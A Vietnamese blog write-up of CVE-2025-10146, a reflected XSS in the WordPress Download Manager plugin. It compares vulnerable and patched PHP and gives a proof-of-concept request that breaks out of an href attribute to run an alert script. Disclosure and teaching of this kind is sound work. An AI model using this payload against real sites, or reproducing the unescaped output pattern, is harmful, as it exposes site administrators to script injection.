 # CVE-2025-10146 Analysis & POC


<!--more-->

Lỗ hổng trong plugin **Download Manager** trước phiên bản **3.3.24**. Dữ liệu được lấy từ **GET** request được in trực tiếp vào **HTML attribute**, **reflected XSS** xảy ra khi người dùng có đặc quyền truy cập vào đường dẫn do attack cung cấp.

* **CVE ID**: [CVE-2025-10146](https://www.cve.org/CVERecord?id=CVE-2025-10146)
* **Product**: [WordPress Download Manager Plugin](https://wordpress.org/plugins/download-manager)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 3.3.23
* **CVSS severity**: Medium (7.1)
* **Required Privilege**: Unauthenticated

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Download Manager**: v3.3.23(vul) và v3.3.24(fix)
* **diff tool**: **meld** hoặc bất cứ tool nào có thể compare để thấy được sự khác biệt giữa 2 version

## Analysis

### Patch Diff

Dùng diff tool bất kì để so sánh sự khác biệt giữa bản lỗi và bản vá.
Có sự khác biệt rõ ở file **src/Admin/views/stats/history.php**.

**Bản lỗi**:

```php
<?php if (!empty($user_ids)): ?>
    <div class="clear-filter">
        <?php
        $get_params_xu = $get_params;
        unset($get_params_xu['user_ids']);
        $reset_url = add_query_arg($get_params_xu, 'edit.php');
        ?>
        <a href="<?php echo $reset_url; ?>" class="clear-btn" title="<?php _e('Clear user filter', 'download-manager'); ?>">
            <i class="fas fa-times"></i>
        </a>
    </div>
<?php endif; ?>
```

Lấy **GET params** và gán trực tiếp vào **href** của thẻ `<a>` mà không có cơ chế bảo vệ => nguy cơ **reflected XSS**.

**Bản vá**:

```php
<?php if (!empty($user_ids)): ?>
    <div class="clear-filter">
        <?php
        $get_params_xu = $get_params;
        unset($get_params_xu['user_ids']);
        $get_params_xu = \WPDM\__\__::sanitize_array($get_params_xu, 'safetxt');

        $reset_url = add_query_arg($get_params_xu, 'edit.php');
        ?>
        <a href="<?php echo esc_url($reset_url); ?>" class="clear-btn" title="<?php _e('Clear user filter', 'download-manager'); ?>">
            <i class="fas fa-times"></i>
        </a>
    </div>
<?php endif; ?>
```

{{< figure src="patch_diff.png" caption="Patch Diff: sanitized GET parameters and escaped URL" >}}

Bản vá đã **sanitize** mảng **GET params** bằng `sanitize_array` và sử dụng `esc_url`  để **escape URL** => an toàn hơn.

### How It Work?

Ta cần tìm URL thực sự để inject GET params chứa XSS payload.

**src/Admin/views/stats/history.php** chứa các tag **php**, **HTML** và nằm trong **views** cho thấy file này được include ở nơi nào đó trong mã nguồn plugin.

Ta tìm với từ khóa `history.php` trong thư mục plugin

{{< figure src="search1.png" caption="Search results for history.php" >}}

👉 Không có kết quả nào khớp. Khả năng cao nó được include động như này `{$file_name}.php`. Ta tìm với regex `\{.*\}\.php`:

{{< figure src="regex.png" caption="Regex search for dynamic includes" >}}

**src/Admin/views/stats/history.php** được include trong **src/Admin/views/stats.php**

URL thực sự để truy cập được khai báo ở đầu file **stats.php**

```
$base_page_uri = "edit.php?post_type=wpdmpro&page=wpdm-stats";
```

Tương tự **history.php**, **stats.php** cũng được include ở đâu đó trong mã nguồn plugin. Nhưng không cần quan tâm vì ta đã tìm được URL thực sự.

Để chắc chắn hơn, ta đặt **breakpoint** tại vị trí lỗ hổng trong file **src/Admin/views/stats/history.php**, sau đó bắt đầu debug và truy cập URL:

```
edit.php?post_type=wpdmpro&page=wpdm-stats
```

{{< figure src="debug.png" caption="Breakpoint debugging to observe GET params" >}}

Trước tiên, plugin lấy toàn bộ **GET parameters** vào `$get_params`.

Nếu `$user_ids` không rỗng, plugin sẽ tạo **nút “Clear filter”**. Để làm nút này hoạt động, cần một URL mà **không còn `user_ids`** nữa, nên plugin làm như sau:

```php
$get_params_xu = $get_params;        // copy toàn bộ GET parameters
unset($get_params_xu['user_ids']);   // bỏ user_ids ra khỏi mảng
$reset_url = add_query_arg($get_params_xu, 'edit.php'); // tạo URL mới
```

* `unset($get_params_xu['user_ids'])` => loại bỏ bộ lọc `user_ids` khỏi URL.
* `add_query_arg($get_params_xu, 'edit.php')` > tạo URL mới với các tham số còn lại.

Cuối cùng, URL này được gắn vào nút “Clear filter”:

```php
<a href="<?php echo $reset_url; ?>" class="clear-btn">...</a>
```

**Kết quả:** Khi người dùng nhấn nút, trang sẽ load lại **mà không còn bộ lọc user_ids**, tức là `“clear filter”`.

## Exploit

### Detect XSS

Gửi GET request chứa XSS payload:

```http
GET /wp-admin/edit.php?post_type=wpdmpro&page=wpdm-stats&user_ids[0]=1&payload="></a><script>alert(document.domain)</script> HTTP/1.1
```

Ta thêm `"></a>` để đóng thẻ `<a>` sau đó thêm 1 script dể `alert()`

{{< figure src="xss.png" caption="Reflected XSS triggered via GET parameter" >}}

👉 XSS thành công, khi người dùng có đặc quyền truy cập vào URL do attacker cung cấp thì **reflected XSS** xảy ra => Xảy ra đúng kịch bản **Unauthenticated**

## Conclusion

Lỗ hổng **CVE-2025-10146** trong plugin **WordPress Download Manager <= 3.3.23** là **reflected XSS**, xảy ra khi dữ liệu từ **GET request** được in trực tiếp vào **HTML attribute** mà không được sanitize hoặc escape. Người dùng có quyền truy cập vào đường dẫn này (admin/author) có thể bị tấn công nếu truy cập URL do attacker tạo.

Bản vá **3.3.24** đã:

1. **Sanitize mảng GET parameters** (`sanitize_array`) để loại bỏ ký tự nguy hiểm.
2. **Escape URL** khi in ra HTML (`esc_url`) để ngăn XSS.

**Key takeaways**:

* Luôn **sanitize và escape dữ liệu** từ người dùng trước khi render ra HTML.
* Kiểm tra **quyền truy cập** trước khi xử lý hoặc hiển thị dữ liệu nhạy cảm.
* Ngay cả các role thấp (contributor) vẫn có thể trở thành điểm tấn công nếu plugin không bảo vệ đúng cách.
* Cập nhật plugin thường xuyên là cách phòng thủ đơn giản nhưng hiệu quả nhất.

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress Download Manager Plugin <= 3.3.24 is vulnerable to Cross Site Scripting (XSS)](https://patchstack.com/database/wordpress/plugin/download-manager/vulnerability/wordpress-download-manager-plugin-3-3-23-reflected-cross-site-scripting-via-user-ids-parameter-vulnerability)


---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2025-10-06-cve-2025-10146/  

